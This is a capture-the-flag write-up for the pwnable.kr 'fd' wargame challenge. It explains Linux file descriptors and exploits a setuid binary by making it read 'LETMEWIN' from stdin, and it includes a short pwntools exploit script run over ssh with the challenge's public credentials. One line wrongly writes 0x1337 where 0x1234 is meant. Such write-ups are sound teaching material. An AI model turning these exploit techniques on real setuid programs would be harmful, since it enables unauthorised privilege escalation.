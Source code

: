 # fd Writeup

## Challenge infos

```text
Mommy! what is a file descriptor in Linux?

* try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link:
https://youtu.be/971eZhMHQQw

ssh fd@pwnable.kr -p2222 (pw:guest)
```

## Server content

```text
$ sshpass -p guest ssh fd@pwnable.kr -p2222
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|


- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Tue Apr  9 04:32:14 2019 from 203.249.127.35
fd@ubuntu:~$ ls -la
total 40
drwxr-x---  5 root   fd   4096 Oct 26  2016 .
drwxr-xr-x 93 root   root 4096 Oct 10 22:56 ..
d---------  2 root   root 4096 Jun 12  2014 .bash_history
-r-sr-x---  1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r--  1 root   root  418 Jun 11  2014 fd.c
-r--r-----  1 fd_pwn root   50 Jun 11  2014 flag
-rw-------  1 root   root  128 Oct 26  2016 .gdb_history
dr-xr-xr-x  2 root   root 4096 Dec 19  2016 .irssi
drwxr-xr-x  2 root   root 4096 Oct 23  2016 .pwntools-cache
fd@ubuntu:~$ id                                                                                                                                     
uid=1004(fd) gid=1004(fd) groups=1004(fd)                                                                                                           
fd@ubuntu:~$ file fd
fd: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=c5ecc1690866b3bb085d59e87aad26a1e386aaeb, not stripped
fd@ubuntu:~$ cat fd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}

fd@ubuntu:~$
```
## Exploitation objective
* The ssh user is ```fd```, group ```fd```
* The ```flag``` file is readable only by the user ```fd_pwn``` or the group ```root```
* The ```fd``` binary is a 32bit ELF executable by the ```fd_pwn``` user or members of the ```fd``` group and is ```suid``` meaning that it executes with the rights of its user even if called by a member of its group

This means that if we pwn the ```fd``` executable we can gain read access to the ```flag``` file via suid user ```fd_pwn```.

The ```pwn``` executable is certainly compiled from the ```fd.c``` source code, let's have a look.

## C code analysis
```c
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
```

* We need to call the program with a number as first argument : ```./fd [n]```


```c
        int fd = atoi( argv[1] ) - 0x1234;
```

* The ```[n]``` argument is used to define the ```fd``` variabl by substracting ```0x1234``` (hexadecimal number 4660) from it

```c
        len = read(fd, buf, 32);
```

* The ```fd``` variable is used as the file descriptor to read a string to the buffer ```buf```

```c
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
```

* If the content of the buffer ```buf``` is equal to ```"LETMEWIN\n"``` (```\n``` denotes newline character) the executable calls ```system()``` to output the content of ```flag``` with ```cat```, this is our target

## File descriptor understanding

The ```fd``` variable is a file descriptor, an unique value linking to an open stream for reading or writing

There is 3 defined files descriptors when the program is started and we can define new ones with a call to ```open()```

The 3 already open ones are :
* ```0``` : refers to ```stdin```, the standard input stream, read only
* ```1``` : refers to ```stdout```, the standard output stream, write only
* ```2``` : refers to ```stderr```, the standard error stream, write only

## Exploitation

* There is no call to ```open()``` in the program but since we can manipulate ```fd``` through ```[n]``` we can set it to ```0``` in order to read from ```stdin```

* If we set ```[n]``` to ```0x1337``` = ```4660``` we can call the program with ```./fd 4660```, forcing it to read the buffer frmo ```stdin```

* We the input ```LETMEWIN``` and press ```Enter``` to send a newline character ```\n```

* The check is then passed and the ```flag``` is output

* ```PWN```

## Exploitation script

```python
#!/usr/bin/env python
from pwn import *
```
* Use [pwntools](https://github.com/Gallopsled/pwntools) for automatic exploitation
```python
argv_1 = 0x1234
```
* Set the ```argv_1``` variable to ```0x1234``` (Python can understand hexadecimal values by starting a number with ```0x``` and converts them to decimal)
```python
# io = process(['./fd', str(argv_1)])

server = ssh('fd', 'pwnable.kr', 2222, 'guest')
io = server.process(['./fd', str(argv_1)])
```
* During testing the ```io``` is set to the local ```./fd``` executable downloaded by the setup script
* After the exploit is working we can use it on the server by ssh-ing to it before setting ```io``` to the remote ```.\fd``` executable
* In both cases, pass the ```argv_1``` argument
```python
io.sendline('LETMEWIN')

result = io.recvall()

io.close()
server.close()

print(result)
```
* Send the ```LETMEWIN``` line with a newline character (with ```sendline()```)
* Print the ```result``` which is the ```flag```
* ```PWN```
